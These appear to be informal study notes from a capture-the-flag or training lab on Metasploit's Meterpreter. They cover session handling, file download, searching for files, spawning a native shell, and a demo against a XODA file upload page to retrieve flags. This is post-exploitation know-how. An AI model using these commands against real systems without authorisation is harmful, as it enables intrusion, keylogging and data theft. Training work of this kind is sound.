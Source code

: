 
### Meterpreter sessions/shell
- Meta-interpreter is a multi-funcitonal payload executed on memory (difficult detect)
- Communicates over a staged socket, provides command tinterpreter ontarget
- facilitates execution of system cmds, file system navigation, keylogging etc
- load custom scripts and plugins dynamically
- diff payloads for diff envs available

Demo:
Only terminal given, no desktop env available
scan and curl the site

- Found XODA is used
/webapp/xoda_file_upload

Common commands to run:
`sysinfo`
`getuid`
`help`

`bg`  -> ctrl Z also bgs the session

`sesisons -h`
`sessions -C sysinfo -i 1`
--> runs a command on the given session
`sessions -n xoda`
--> name the session xoda etc
`sessions -k`
->kill

In the session
`edit flag1`
-> opens vim to edit the file in the session

`download flag5.zip <dir to dl to, optional>`

On Msfconsole
`unzip flag5.zip`
`cat list`
-> flag "list" found in zip says to look at the MD5 hash of /bin/bash

so, go back to the session
`checksum md5 /bin/bash`
-> the hash given is the flag
-> checksum usually use to check legitamacy of a file/if corrupted
-> `certutil ` is used in windows

More commands:
`getenv PATH`
-> gives back the env var PATH

`search -d /usr/bin -f *backdoor*` 
`search -f *.jpg`
`search -f *.php`

`shell`
-> opens up the native shell (cmd for windows, terminal for linux)
In the shell `/bin/bash -i` 
